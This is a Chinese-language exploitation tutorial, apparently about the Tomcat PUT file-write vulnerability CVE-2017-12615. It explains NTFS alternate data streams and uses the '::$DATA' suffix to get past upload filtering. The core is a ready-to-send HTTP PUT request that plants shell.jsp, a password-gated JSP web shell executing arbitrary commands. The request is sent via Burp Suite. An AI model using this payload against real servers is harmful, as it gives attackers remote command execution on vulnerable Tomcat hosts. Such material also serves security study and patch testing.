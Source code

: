 #### 漏洞利用

##### 上传姿势一：

参考思路:微软MSDN上关于NTFS
Streams的一段资料<https://msdn.microsoft.com/en-us/library/dn393272.aspx>

大概意思:

[NTFS](https://forum.90sec.com/t/topic/66#gt_86f79a17-c0be-4937-8660-0cf6ce5ddc1a)卷上的所有文件至少包含一个流
- 主流 - 这是存储数据的普通可查看文件。流的全名是以下形式。

    Copy to clipboard<filename>：<stream name>：<stream type>

默认数据流没有名称。也就是说，名为`sample.txt`的文件的默认流的完全限定名称是`ample.txt :: $ DATA`，因为`sample.txt`是文件的名称，`$ DATA&`是流类型。

用户可以在文件中创建命名流，并将`$ DATA`创建为合法名称。这意味着对于此流，全名是`sample.txt：$ DATA：$ DATA`。如果用户创建了名为`bar`的命名流，则其全名为`sample.txt：bar：$ DATA`。文件名的任何合法字符对于流名称（包括空格）都是合法的。

对于目录，没有默认数据流，但有一个默认目录流。目录是流类型\$
INDEX\_ALLOCATION。\$ INDEX\_ALLOCATION类型（目录流）的默认流名称是\$
I30。（这与\$
DATA流的默认流名称形成对比，后者具有空的流名称。）以下是等效的：

    Copy to clipboardDir C：\ Users
    Dir C：\ Users：$ I30：$ INDEX_ALLOCATION
    Dir C：\ Users :: $ INDEX_ALLOCATION

虽然目录没有默认数据流，但它们可以具有命名数据流。这些备用数据流通常不可见，但可以使用DIR命令的/
R选项从命令行观察。

payload:

    PUT /shell.jsp::$DATA HTTP/1.1  
    Host: 172.26.1.8:8080  
    Content-Length: 662  
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp  
    +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>

我们利用burpsuite来发送我们的payload

![](./resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId34.png)
